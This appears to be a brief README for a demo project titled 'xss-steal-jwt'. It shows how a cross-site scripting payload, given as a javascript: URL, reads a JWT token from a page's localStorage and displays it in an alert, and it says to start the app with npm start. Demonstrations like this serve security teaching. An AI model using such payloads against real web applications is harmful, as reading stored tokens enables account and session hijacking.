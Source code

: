 # xss-steal-jwt

an example about stealing jwt token via localstorage.
payload :

    javascript:alert(localStorage.getItem('jwt-token'));

run the app :

    npm start


